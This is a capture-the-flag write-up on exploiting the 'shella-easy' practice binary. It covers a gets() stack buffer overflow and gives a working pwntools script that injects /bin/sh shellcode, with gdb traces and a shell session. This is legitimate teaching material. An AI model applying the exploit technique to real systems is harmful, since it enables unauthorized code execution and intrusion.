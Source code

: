 # Tu18 Shella Easy

First we'll check the security of the binary: 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/ShellCode/Shellaeasy$ file shella-easy && checksec ./shella-easy
shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped
[*] '/home/root-at-iyn/Nightmare/BufferOverflow/ShellCode/Shellaeasy/shella-easy'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
Looking at the lack of protections we can see why it was challed shella easy :). We have a 32-bit binary with an executable stack and no PIE or Canary. When we run the binary we see the following:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/ShellCode/Shellaeasy$ ./shella-easy
Yeah I'll have a 0xffce1d70 with a side of fries thanks
A
```

It looks like `0xffce1d70` could be an address. When the binary is run a second time we can see the address change, which means the binary has been compiled with ASLR: 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/ShellCode/Shellaeasy$ ./shella-easy
Yeah I'll have a 0xff9952c0 with a side of fries thanks
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Lets take a look at the disassembly for main: 

```asm
080484db <main>:
 80484db:	55                   	push   ebp
 80484dc:	89 e5                	mov    ebp,esp
 80484de:	53                   	push   ebx
 80484df:	83 ec 44             	sub    esp,0x44
 80484e2:	e8 29 ff ff ff       	call   8048410 <__x86.get_pc_thunk.bx>
 80484e7:	81 c3 19 1b 00 00    	add    ebx,0x1b19
 80484ed:	8b 83 fc ff ff ff    	mov    eax,DWORD PTR [ebx-0x4]
 80484f3:	8b 00                	mov    eax,DWORD PTR [eax]
 80484f5:	6a 14                	push   0x14
 80484f7:	6a 02                	push   0x2
 80484f9:	6a 00                	push   0x0
 80484fb:	50                   	push   eax
 80484fc:	e8 bf fe ff ff       	call   80483c0 <setvbuf@plt>
 8048501:	83 c4 10             	add    esp,0x10
 8048504:	8b 83 f8 ff ff ff    	mov    eax,DWORD PTR [ebx-0x8]
 804850a:	8b 00                	mov    eax,DWORD PTR [eax]
 804850c:	6a 14                	push   0x14
 804850e:	6a 02                	push   0x2
 8048510:	6a 00                	push   0x0
 8048512:	50                   	push   eax
 8048513:	e8 a8 fe ff ff       	call   80483c0 <setvbuf@plt>
 8048518:	83 c4 10             	add    esp,0x10
 804851b:	c7 45 f8 be ba fe ca 	mov    DWORD PTR [ebp-0x8],0xcafebabe
 8048522:	8d 45 b8             	lea    eax,[ebp-0x48]
 8048525:	50                   	push   eax
 8048526:	8d 83 e0 e5 ff ff    	lea    eax,[ebx-0x1a20]
 804852c:	50                   	push   eax
 804852d:	e8 4e fe ff ff       	call   8048380 <printf@plt>
 8048532:	83 c4 08             	add    esp,0x8
 8048535:	8d 45 b8             	lea    eax,[ebp-0x48]
 8048538:	50                   	push   eax
 8048539:	e8 52 fe ff ff       	call   8048390 <gets@plt>
 804853e:	83 c4 04             	add    esp,0x4
 8048541:	81 7d f8 ef be ad de 	cmp    DWORD PTR [ebp-0x8],0xdeadbeef
 8048548:	74 07                	je     8048551 <main+0x76>
 804854a:	6a 00                	push   0x0
 804854c:	e8 4f fe ff ff       	call   80483a0 <exit@plt>
 8048551:	b8 00 00 00 00       	mov    eax,0x0
 8048556:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 8048559:	c9                   	leave
 804855a:	c3                   	ret
 804855b:	66 90                	xchg   ax,ax
 804855d:	66 90                	xchg   ax,ax
 804855f:	90                   	nop
```

In main we see: 
- Two calls to made to setvbuf which uses ebx-0x4 and ebx-0x8 as buffers. This is likely used for STDIN and STDOUT. 
- After this we see the value `0xcafebabe` moved into ebp-0x8
- There is a call to printf with `ebp-0x48` and `ebx-0x1a20` as arguments. 
- Next we see `ebp-0x48` passed to `gets` as an argument. This is likely our buffer and point of entry to the program. 
- After the call to gets there is a conditional instruction. A comparison is made between `ebp-0x8` and `0xdeadbeef`, if its equal the program jumps to `8048551` and will execute the return instruction. If its not equal, the program exits. 

So from what we can see, the buffer that points to gets is vulnerable to a buffer overflow. Our input starts at `ebp-0x48` so we can expect after sending 72 bytes we will be at ebp, another 4 bytes will overwrite ebp, which should bring us to the return address which is another 4 bytes. However, we also need to remember the comparison between `ebp-0x8` and `0xdeadbeef`. That means we'll have to send 0x40 (64) bytes to get to ebp-0x8, then add 4 bytes for the `0xdeadbeef` value. The start of our 64 bytes will be the shellcode followed by A's (until 64 bytes is reached), then 0xdeadbeef , then 8 B's, and the return address (4 bytes). At this point we have enough to start building an exploit. We'll make a POC with python and debug it in gdb: 


```python
import re
from pwn import *

target = process("./shella-easy")

# gdb.attach(target, gdbscript="b *main")

# Stack leak
message = target.recvline()
m = re.search(r'(?=0).+(?=with)', message.decode('utf-8'))
rbp_0x48 = int(m.group(0).rstrip(), 16)

# Payload
shellcode = asm(shellcraft.i386.linux.sh())
payload = shellcode + b"A" * (0x40 - len(shellcode)) + p32(0xdeadbeef) + b"B" * 8 + p32(rbp_0x48)

target.sendline(payload)

target.interactive()
```


Running the exploit script and inspecting the breakpoint in gdb, we see we have successfully placed `0xdeadbeef` in rbp-0x8 and have overwritten the return address with `0xffa80c30` the start our shellcode:

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffa80c30  →  0x2f68686a ("jhh/"?)
$ebx   : 0x0804a000  →  0x08049f0c  →  <_DYNAMIC+0000> add DWORD PTR [eax], eax
$ecx   : 0xee9ec9c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffa80c2c  →  0xffa80c30  →  0x2f68686a ("jhh/"?)
$ebp   : 0xffa80c78  →  0x42424242 ("BBBB"?)
$esi   : 0xffa80d34  →  0xffa813f2  →  "./shella-easy"
$edi   : 0xeea46b80  →  0x00000000
$eip   : 0x0804853e  →  <main+0063> add esp, 0x4
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────────────────── stack ────
0xffa80c2c│+0x0000: 0xffa80c30  →  0x2f68686a	 ← $esp
0xffa80c30│+0x0004: 0x2f68686a
0xffa80c34│+0x0008: 0x68732f2f
0xffa80c38│+0x000c: 0x6e69622f
0xffa80c3c│+0x0010: 0x0168e389
0xffa80c40│+0x0014: 0x81010101
0xffa80c44│+0x0018: 0x69722434
0xffa80c48│+0x001c: 0xc9310101
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048535 <main+005a>      lea    eax, [ebp-0x48]
    0x8048538 <main+005d>      push   eax
    0x8048539 <main+005e>      call   0x8048390 <gets@plt>
 →  0x804853e <main+0063>      add    esp, 0x4
    0x8048541 <main+0066>      cmp    DWORD PTR [ebp-0x8], 0xdeadbeef
    0x8048548 <main+006d>      je     0x8048551 <main+118>
    0x804854a <main+006f>      push   0x0
    0x804854c <main+0071>      call   0x80483a0 <exit@plt>
    0x8048551 <main+0076>      mov    eax, 0x0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped 0x804853e in main (), reason: TEMPORARY BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804853e → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  x/24wx $esp
0xffa80c2c:	0xffa80c30	0x2f68686a	0x68732f2f	0x6e69622f
0xffa80c3c:	0x0168e389	0x81010101	0x69722434	0xc9310101
0xffa80c4c:	0x59046a51	0x8951e101	0x6ad231e1	0x80cd580b
0xffa80c5c:	0x41414141	0x41414141	0x41414141	0x41414141
0xffa80c6c:	0x41414141	0xdeadbeef	0x42424242	0x42424242
0xffa80c7c:	0xffa80c30	0x00000000	0xffa80d34	0xffa80d3c
gef➤  info frame
Stack level 0, frame at 0xffa80c80:
 eip = 0x804853e in main; saved eip = 0xffa80c30
 Arglist at 0xffa80c78, args:
 Locals at 0xffa80c78, Previous frame's sp is 0xffa80c80
 Saved registers:
  ebx at 0xffa80c74, ebp at 0xffa80c78, eip at 0xffa80c7c
gef➤  x/a $ebp-0x8
0xffa80c70:	0xdeadbeef
```

If you continue stepping through the instructions you'll see execution is moved to the shellcode. Following the execution of shellcode on the stack we get to the system call `int 80` which will be called with `/bin/sh`. After this is executed we have shell access:

```bash
───────────────────────────────────────────────────────────────────── stack ────
0xffa80c68│+0x0000: 0xffa80c70  →  0x00006873 ("sh"?)	 ← $esp
0xffa80c6c│+0x0004: 0x00000000
0xffa80c70│+0x0008: 0x00006873 ("sh"?)
0xffa80c74│+0x000c: "/bin///sh"
0xffa80c78│+0x0010: "///sh"
0xffa80c7c│+0x0014: 0x00000068 ("h"?)
0xffa80c80│+0x0018: 0x00000000
0xffa80c84│+0x001c: 0xffa80d34  →  0xffa813f2  →  "./shella-easy"
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0xffa80c55                  xor    edx, edx
   0xffa80c57                  push   0xb
   0xffa80c59                  pop    eax
 → 0xffa80c5a                  int    0x80
   0xffa80c5c                  inc    ecx
   0xffa80c5d                  inc    ecx
   0xffa80c5e                  inc    ecx
   0xffa80c5f                  inc    ecx
   0xffa80c60                  inc    ecx
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped 0xffa80c5a in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0xffa80c5a → int 0x80
────────────────────────────────────────────────────────────────────────────────
gef➤  nexti
process 38099 is executing new program: /usr/bin/dash
```

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/ShellCode/Shellaeasy$ python3 exploit_shellaeasy.py 
[+] Starting local process './shella-easy': pid 38099
[*] running in new terminal: ['/usr/bin/gdb', '-q', './shella-easy', '-p', '38099', '-x', '/tmp/pwnlib-gdbscript-h9tkkovu.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
$ id
uid=1000(root-at-iyn) gid=1000(root-at-iyn) groups=1000(root-at-iyn),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
```

